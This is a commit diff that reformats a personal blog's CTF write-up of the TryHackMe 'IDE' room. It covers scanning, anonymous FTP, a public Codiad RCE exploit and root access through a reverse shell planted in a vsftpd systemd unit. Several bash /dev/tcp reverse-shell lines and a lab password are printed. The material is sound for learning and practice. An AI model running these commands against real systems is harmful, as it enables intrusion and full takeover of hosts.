

Before and after one commit to mpck4/mpck4.github.io, a Jekyll site: the page built from index.html, in a window 1280 px wide. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; the list of posts is cut into pages by our own code; part of the change alters nothing that is shown.

Commit message:
updates for the site

````diff
--- a/_posts/IDEwriteup.md
+++ b/_posts/2026-03-05-THM-IDE-Writeup.md
@@ -6,16 +6,19 @@ categories: [TryHackMe]
 tage: [thm, writeup]
 ---
 
-IDE writeup
+Technical writeup for the tryhackme IDE room - here: https://tryhackme.com/room/ide
 
-make sure the host is up - ping 10.x.x.x
+## Enumeration
+
+First, make sure the host is up - ping 10.x.x.x
 
 nmap -sV -sC -T4 -p- 10.x.x.x
+my go to scan for CTFs
 
-my go to scan for CTFs
+Nmap:
 ```bash
 Starting Nmap 7.98 ( https://nmap.org ) at 2026-03-09 23:48 -0400
-Nmap scan report for 10.67.134.170
+Nmap scan report for 10.x.x.x
 Host is up (0.032s latency).
 Not shown: 65531 closed tcp ports (reset)
 PORT      STATE SERVICE VERSION
@@ -50,11 +53,21 @@ Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
 Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
 Nmap done: 1 IP address (1 host up) scanned in 67.08 seconds
 ```
-
-ftp is open with anonymous login allowed, probably the first thing ill look at
-80 and 62337 are also open for http, lets also check that
+Findings:
+ * ftp is open with anonymous login allowed, probably the first thing ill look at
+ * 80 and 62337 are also open, lets check that
 
 ``` bash
+┌──(kali㉿kali)-[~/Documents/thm]
+└─$ ftp 10.x.x.x
+Connected to 10.x.x.x.
+220 (vsFTPd 3.0.3)
+Name (10.x.x.x:kali): Anonymous
+331 Please specify the password.
+Password:
+230 Login successful.
+Remote system type is UNIX.
+Using binary mode to transfer files.
 ftp> ls
 229 Entering Extended Passive Mode (|||42192|)
 150 Here comes the directory listing.
@@ -85,11 +98,10 @@ local: - remote: -
 ftp>
 
 ```
+Interesting way to hide a file, but I eventually found it.
 
-cool, we got a file, lets check it out
-
+Now lets check it out:
 ``` bash
-
 ┌──(kali㉿kali)-[~/Documents/thm]
 └─$ cp - dash
 
@@ -104,19 +116,19 @@ I have reset the password as you have asked. Please use the default password to
 Also, please take care of the image file ;)
 - drac.
 ```
-we got a username and most likey a password, I would guess its somewhere in the html of the http sites we found!
+We got a username and hint for a password,
+lets check the website now.
 
-lets check..
-
-visit 10.x.x.x:80 and :62337
-port 80 was the defaul apache page, port 62337 is a log in portal! (saddly no hidden passwords in the html)
+I just visited 10.x.x.x:80 and :62337,
+Port 80 was the default Apache page, port 62337 is a log in portal!
 
 I was going to try and bruteforce it with hydra, however the note said it was a default password, likey a hint that its easy, I tried password and it was correct yay!
 
 Now that we have credentials, lets see if we can find an exploit
 
+## Exploitation
+
 Just looking at searchsploit, we found this:
-
 ``` bash
 ┌──(kali㉿kali)-[~/Documents/thm]
 └─$ searchsploit codiad
@@ -131,8 +143,7 @@ Codiad 2.8.4 - Remote Code Execution (Authenticated) (3)                    | mu
 Codiad 2.8.4 - Remote Code Execution (Authenticated) (4)                    | multiple/webapps/50474.txt
 
 ```
-Perfect, the site is in Codiad 2.8.4 - Lets copy one of them over and exploit
-
+Perfect, the site is in Codiad 2.8.4 - Lets copy one of them over and exploit:
 ``` bash
 
 ┌──(kali㉿kali)-[~/Documents/thm]
@@ -140,7 +151,6 @@ Perfect, the site is in Codiad 2.8.4 - Lets copy one of them over and exploit
 
 ```
 now, how does it work?
-
 ``` bash
 ┌──(kali㉿kali)-[~/Documents/thm]
 └─$ python3 49705.py
@@ -154,14 +164,12 @@ Author :
         WangYihang <wangyihanger@gmail.com>
 
 ```
-
 ok, so we type in the creds, and hit enter:
-
 ``` bash
 ┌──(kali㉿kali)-[~/Documents/thm]
-└─$ python 49705.py http://10.67.134.170:62337/ john password 192.168.150.103 9001 linux
+└─$ python 49705.py http://10.x.x.x:62337/ john password 192.x.x.x 9001 linux
 [+] Please execute the following command on your vps:
-echo 'bash -c "bash -i >/dev/tcp/192.168.150.103/9002 0>&1 2>&1"' | nc -lnvp 9001
+echo 'bash -c "bash -i >/dev/tcp/192.x.x.x/9002 0>&1 2>&1"' | nc -lnvp 9001
 nc -lnvp 9002
 [+] Please confirm that you have done the two command above [y/n]
 [Y/n] Y
@@ -173,14 +181,10 @@ nc -lnvp 9002
 [+] Writeable Path : /var/www/html/codiad_projects
 [+] Sending payload...
 
-
-
 ```
 as well as
-
 ``` bash
 echo 'bash -c "bash -i >/dev/tcp/192.168.150.103/9002 0>&1 2>&1"' | nc -lnvp 9001
-
 ```
 AND
 ``` bash
@@ -194,9 +198,11 @@ www-data@ide:/var/www/html/codiad/components/filemanager$ whoami
 
 ```
 which gives us our shell.
-different terminals, interesting payload...
+Interesting payload, make sure to run both of the commands it asks in different terminals.
 
-either way we have a shell, look for flags and try to get root!
+We have a shell, look for flags and try to get root!
+
+## Finding Flags
 
 ``` bash
 www-data@ide:/var/www/html/codiad/components/filemanager$ cd /
@@ -237,10 +243,9 @@ mysql -u drac -p 'Th3dRaCULa1sR3aL'
 www-data@ide:/home/drac$
 
 ```
-nice, drac's password
+We were not authorized to view drac's files, but the .bash_history file, (that stores a record of commands previously executed in the Bash shell) had drac's password!
 
 Lets try to read that flag now:
-
 ``` bash
 www-data@ide:/home/drac$ su drac
 su drac
@@ -256,14 +261,15 @@ Password: Th3dRaCULa1sR3aL
 
 drac@ide:~$ cat user.txt
 cat user.txt
-02930d21a8eb009f6d26361b2d24a466
+████████████████████████████████
 drac@ide:~$
 
 ```
-We had to upgrade to a shell, but we got our first flag!
+We had to upgrade to a terminal, but we got our first flag!
 
+## Privilege Escalation
 
-Escilate now!
+Escalation now!
 ``` bash
 drac@ide:/$ sudo -l
 Matching Defaults entries for drac on ide:
@@ -272,31 +278,26 @@ Matching Defaults entries for drac on ide:
 
 User drac may run the following commands on ide:
     (ALL : ALL) /usr/sbin/service vsftpd restart
-
-
 ```
 
-lets make things easier, since we have credentials im just going to ssh in!
-
+First, lets make things easier, since we have credentials im just going to ssh in:
 ``` bash
 ssh drac@10.x.x.x
 ```
-Doing some research, I found this article https://morgan-bin-bash.gitbook.io/linux-privilege-escalation/sudo-service-privilege-escalation which helped me escilate!
 
-we found the location:
+Doing some research, I found this article [LINK](https://morgan-bin-bash.gitbook.io/linux-privilege-escalation/sudo-service-privilege-escalation) which helped me quite a bit.
+
+After reading, I just followed their steps:
 ``` bash
 drac@ide:/usr/sbin$ locate 'vsftpd.service'
 /etc/systemd/system/multi-user.target.wants/vsftpd.service
-
-/lib/systemd/system/vsftpd.service	this one!
-
+/lib/systemd/system/vsftpd.service	# this one!
 /var/lib/lxcfs/cgroup/blkio/system.slice/vsftpd.service
 /var/lib/lxcfs/cgroup/cpu,cpuacct/system.slice/vsftpd.service
-... many more
-
+# ... more paths
 ```
 
-This part of the artcile:
+Next part of the article:
 ```bash
 [Unit]
 Description=vsftpd FTP server
@@ -312,12 +313,12 @@ ExecStartPre=/bin/bash -c 'bash -i >& /dev/tcp/<local-ip>/4444 0>&1'
 WantedBy=multi-user.target
 ```
 
-we add that to our file but with our ip,
-
+We add that to our file but with our ip,
 and start a nc listening on that port, then restart the daemon!
 
 ```bash
 drac@ide:/lib/systemd/system$ vim vsftpd.service
+# make the edits
 drac@ide:/lib/systemd/system$ systemctl daemon-reload
 ==== AUTHENTICATING FOR org.freedesktop.systemd1.reload-daemon ===
 Authentication is required to reload the systemd state.
@@ -325,14 +326,14 @@ Authenticating as: drac
 Password:
 ==== AUTHENTICATION COMPLETE ===
 drac@ide:/lib/systemd/system$ sudo /usr/sbin/service vsftpd restart
+```
 
-```
-and shell (make sure to do this before you restart)
+and shell (make sure to do this after editing the file)
 ```bash
 ┌──(kali㉿kali)-[~/Documents/thm]
 └─$ nc -lvnp 4444
 listening on [any] 4444 ...
-connect to [192.168.150.103] from (UNKNOWN) [10.67.134.170] 59390
+connect to [192.x.x.x] from (UNKNOWN) [10.x.x.x] 59390
 bash: cannot set terminal process group (2770): Inappropriate ioctl for device
 bash: no job control in this shell
 root@ide:/# whoami
@@ -342,11 +343,11 @@ root@ide:/# cd root
 cd root
 root@ide:/root# cat root.txt
 cat root.txt
-ce258cb16f47f1c66f0b0b77f4e0fb8d
+████████████████████████████████
 root@ide:/root#
 
 ```
 
 Room done!
 
-Thank you for reading, and thanks to LINK for the really helpful priv esc!
+Thank you for reading, and thanks to [LINK](https://morgan-bin-bash.gitbook.io/linux-privilege-escalation/sudo-service-privilege-escalation) for the really helpful priv esc!
````
